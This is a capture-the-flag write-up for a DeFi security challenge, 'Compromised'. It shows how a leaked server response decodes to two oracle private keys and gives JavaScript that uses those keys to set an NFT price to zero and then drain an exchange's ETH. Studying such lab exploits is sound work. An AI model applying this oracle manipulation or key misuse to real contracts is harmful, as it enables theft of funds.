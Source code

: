 # Challenge # 7 Compromised
While poking around a web service of one of the most popular DeFi projects in the space, 
you get a somewhat strange response from their server. This is a snippet:  
```
 HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```
A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters:
 0xA73209FB1a42495120166736362A1DfA9F95A105,0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

## Step 1 - Looking at the contracts 
Taking a loook at the 3 contracts, at plain sight the only way I see I can manipulate 
the price of the oracles to drain the contract is if I make myself a TRUSTED_SOURCE_ROLE.  

After, realizing that, I took a look at the http response see what kind of data I could 
find. Decoding the bytes with https://onlinehextools.com/convert-hex-to-string I get a string 
text looking alike to a base64 encoded string. Decoding that base64 string, gives me 2 private
keys of the oracle source accounts with privilage to modify the price data.  

## Step 2 - Building exploit
Very simple, first we impersonate the TRUSTED_SOURCES account to change the price to 0 
so we can buy the nfts for free and again later to sell it for the amount balance of the exchange contract
in order to drain it.  
```js
		let privateKey1 = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";
		let privateKey2 = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";
		let wallet1 = new ethers.Wallet(privateKey1, ethers.provider);
		let wallet2 = new ethers.Wallet(privateKey2, ethers.provider);
		// Change price to 0
		await this.oracle.connect(wallet1).postPrice("DVNFT", 0);
		await this.oracle.connect(wallet2).postPrice("DVNFT", 0);
		// Buy free NFT
		const tx = await this.exchange.connect(attacker).buyOne({value: ethers.utils.parseEther('0.01')});
		const reciept = await tx.wait()
		const tokenId = reciept.events[1].args.tokenId;
		// Drain Contract
		await this.oracle.connect(wallet1).postPrice("DVNFT", await ethers.provider.getBalance(this.exchange.address));
		await this.oracle.connect(wallet2).postPrice("DVNFT", await ethers.provider.getBalance(this.exchange.address));
		await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId);
		await this.exchange.connect(attacker).sellOne(tokenId);
		// Reset Price
		await this.oracle.connect(wallet1).postPrice("DVNFT", INITIAL_NFT_PRICE);
		await this.oracle.connect(wallet2).postPrice("DVNFT",INITIAL_NFT_PRICE);
``` 

